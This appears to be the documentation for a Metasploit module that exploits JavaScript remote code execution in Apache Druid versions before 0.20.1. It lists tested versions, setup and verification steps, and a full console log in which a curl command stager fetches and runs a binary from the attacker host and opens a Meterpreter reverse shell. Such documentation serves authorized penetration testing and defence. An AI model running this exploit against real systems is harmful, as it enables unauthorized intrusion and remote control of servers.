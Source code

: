 
## Vulnerable Application
Apache Druid
### Description

This module post json type request to Apache Druid with "config" is set to true, 
and execute command in "function" with Javascript to exploit.
But it seem that some payloads can't execute successfully and no reason,
such as cmd/unix/reverse_python


It has been fixed in Apache Druid 0.20.1

This module has been tested successfully against bebelow:

Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)

Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)

Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)

Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)

Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)

Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)

Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)

### Setup

Just use docker,but any other version you need to find by yourself

docker pull fokkodriesprong/docker-druid
docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_druid_js_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `set lport/srvport <ip>` if necessary
1. Do: `run`
1. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### CHECKCMD

You can set a customize command to check and get command exec result respond.
Default is "id"


## Scenarios

### Apache Druid 0.20.0-iap4.1 on SaltStack Salt 3002.2 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf6 > use exploit/linux/http/apache_druid_js_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_druid_js_rce) > set rhosts 10.100.70.2
rhosts => 10.100.70.2
msf6 exploit(linux/http/apache_druid_js_rce) > set rport 8888
rport => 8888
msf6 exploit(linux/http/apache_druid_js_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CHECKCMD  id               yes       The command to execute as checking vulnerability
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8888             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   VHOST                      no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf6 exploit(linux/http/apache_druid_js_rce) > run

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Using URL: http://0.0.0.0:8080/NCId0EEi0G9
[*] Local IP: http://10.100.70.1:8080/NCId0EEi0G9
[*] Generated command stager: ["curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU"]
[*] Executing command /bin/bash`@~-c`@~curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU ......
[*] Client 10.100.70.2 (curl/7.58.0) requested /NCId0EEi0G9
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 10.100.70.2
[*] Meterpreter session 2 opened (10.100.70.1:4444 -> 10.100.70.2:59996) at 2021-03-31 10:56:03 +0800
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
